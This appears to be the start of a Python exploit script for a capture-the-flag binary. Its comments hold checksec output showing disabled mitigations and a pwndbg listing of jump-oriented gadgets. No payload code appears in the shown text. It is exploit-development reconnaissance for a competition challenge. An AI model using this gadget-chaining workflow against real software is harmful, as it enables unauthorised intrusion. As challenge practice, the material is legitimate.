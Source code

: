 ```python

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ file vuln 
# vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
# ┌─[192.168.83.128]─[halcyon@parrot]─[~/SharedFolder/finals/yqroo wants a job]
# └──╼ [★]$ pwn checksec vuln 
#     Arch:     amd64-64-little
#     RELRO:    No RELRO
#     Stack:    No canary found
#     NX:       NX unknown - GNU_STACK missing
#     PIE:      No PIE (0x400000)
#     Stack:    Executable

# gadgets:
# pwndbg> x/40i 0x401000                                                                                                                                                                                                                                                          
#    0x401000:    pop    rbx    
#    0x401001:    pop    rsp                                                                                                                                                      
#    0x401002:    pop    rdi
#    0x401003:    pop    rdx
#    0x401004:    pop    rsi
#    0x401005:    pop    rcx
#    0x401006:    jmp    QWORD PTR [rsi-0x25]

#    0x401009:    add    rdx,rcx
#    0x40100c:    jmp    QWORD PTR [rdx-0x45]

#    0x40100f:    nop           
#    0x401010:    nop                        
#    0x401011:    jmp    QWORD PTR [rcx-0x11]

#    0x401014:    add    eax,edi
#    0x401016:    jmp    QWORD PTR [rcx]     

#    0x401018:    pop    rbx    
#    0x401019:    jmp    QWORD PTR [rcx+0x47]

#    0x40101c:    jmp    QWORD PTR [rsp-0x64]

#    0x401020:    xor    rdx,rdx             
#    0x401023:    add    rcx,rax             
#    0x401026:    xor    rbx,rcx
#    0x401029:    jmp    rbx    
#    0x40102b:    add    rcx,QWORD PTR [rsp+0x18]                                                                                         
#    0x401030:    jmp    QWORD PTR [rdx-0x1d]

#    0x401033:    sub    rsi,rbx                                                          
#    0x401036:    jmp    QWORD PTR [rcx]     

#    0x401038:    xchg   rsi,rdi
#    0x40103b:    fwait                 
#    0x40103c:    sub    rax,rcx
#    0x40103f:    jmp    QWORD PTR [rdi+0xb]

#    0x401042:    mul    bl     
#    0x401044:    nop                       
#    0x401045:    stc      
#    0x401046:    xchg   rcx,rdx
```